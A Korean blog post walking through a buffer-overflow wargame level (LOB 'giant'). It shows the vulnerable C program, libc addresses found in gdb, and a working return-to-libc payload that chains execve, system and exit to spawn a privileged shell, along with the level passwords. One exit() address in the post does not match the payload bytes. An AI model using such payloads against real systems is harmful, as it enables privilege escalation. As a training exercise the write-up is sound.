 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 LEVEL14 (Bugbear -> Giant) : RTL2, Only Execve"
date: 2015-11-30 02:03:10
category: wargame
tags:  bof 
---
```


- id = bugbear
- pw = new divide

<!--more--> 

## 1. 문제 : giant.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
        char buffer[40];
        FILE *fp;
        char *lib_addr, *execve_offset, *execve_addr;
        char *ret;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // gain address of execve
        fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep ibc | /bin/awk '{print $4}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "(%x)", &lib_addr);
        fclose(fp);

        fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "%x", &execve_offset);
        fclose(fp);

        execve_addr = lib_addr + (int)execve_offset;
        // end

        memcpy(&ret, &(argv[1][44]), 4);
        if(ret != execve_addr)
        {
                printf("You must use execve!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```

### 1.1 변경된 코드

앞부분에 추가된 내용은 execve() 함수의 주소를 얻기 위함이고, 주변 변경 사항은 아래와 같이 RTL 공격에 사용된 함수가 execv() 이어야 한다는 것이다.

```c
memcpy(&ret, &(argv[1][44]), 4);
if(ret != execve_addr)
{
    printf("You must use execve!\n");
    exit(0);
}
```

## 2. 공격 준비

### 2.1 공격 방법 고민

#### 2.1.1 execve() 주소 = 0x400a9d48

```
(gdb) p execve
$1 = {<text variable, no debug info>} 0x400a9d48 <__execve>
```

## 2.4 LR 확인 : 계속 실패 ???

앞에서 확인한 execve() 값을 넣고 조건 체크 넘어가는지 확인.

```bash
> ./giant `python -c 'print "\x90"*44 + "\x48\x9d\x0a\x40"'` 
You must use execve!
```

이상하게도 execve() 값을 제대로 넣고 실행을 했은데도 계속 조건 체크 if 문제 걸려서 제대로 동작하지 않는거다… T_T; XXX 는 값을 shell 에서 evaluation 한 것인데, 현재 0x0a = New Line 으로 인하여 값이 제대로 들어가지 않는다고 한다. "XXX" 와 같이 " 를 이용하여 모든 값을 문자열로 전달하여야 한다(고 한다.)

```bash
$ > ./giant "`python -c 'print "\x90"*44 + "\x48\x9d\x0a\x40"'`"
H
@
Segmentation fault
```

### 2.5 Stack 구성

```
[ Buffer[40] ][ SFR ][ LR ][ ...]
= [ Buffer[44] ][ execve() ][ system() ][ exit() ][ /bin/sh ]

- execve() : 0x400a9d48
- system() : 0x40058ae0
- exit()   : 0x400391e0
- /bin/sh  : 0x400fbff9
```

## 3 Exploit

```bash
$ > ./giant "`python -c 'print "\x90"*44 + "\x48\x9d\x0a\x40" + "\xe0\x8a\x05\x40" + "\xe0\x9a\x03\x40" + "\xf9\xbf\x0f\x40"'`"  
H
@à@à@ù¿@

bash$ id
uid=513(bugbear) gid=513(bugbear) euid=514(giant) egid=514(giant) groups=513(bugbear)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=513(bugbear) gid=513(bugbear) euid=514(giant) egid=514(giant) groups=513(bugbear)

bash$ my-pass
euid = 514
one step closer
```







